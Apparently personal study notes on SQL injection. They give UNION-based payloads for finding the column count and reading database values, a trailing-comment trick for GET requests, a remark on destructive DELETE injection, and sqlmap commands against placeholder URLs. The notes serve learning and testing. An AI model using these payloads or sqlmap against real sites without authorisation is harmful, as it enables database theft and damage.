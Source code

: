 payload:
'UNION SELECT user(); -- -' ;

Cool trick used above the comment is 2 dashes, space then a dash as most browsers automatically remove trailing spaces in URL, So for GET req injections need to add a character after the trailing comment space.

### Before UNION injections number of fields used by original select statement must be found with help of boolean 
' UNION SELECT null; -- -
' UNION SELECT null,null; -- - etc

once number of fields found, see which field affects the output page
' UNION SELECT 'field1', 'field2' ; -- -

See which field appears either in the page itself or in the html source code

Note: IRL DELETE descirption FROM items WHERE id = '1' is just as deadly. But less seen in practices.

## SQLMap
Autoinjection tool. Better try manual injection first to not crash the site etc
Get injections using UNION based technique:
```bash
sqlmap -u "http://some.site/view.php?id=1141" -p id --technique=U 
```
POST injectons:
```bash
sqlmap -u "http://some.site/view.php?id=1141" --data=<POST string> -p parameter
```
post string can be taken from burp proxy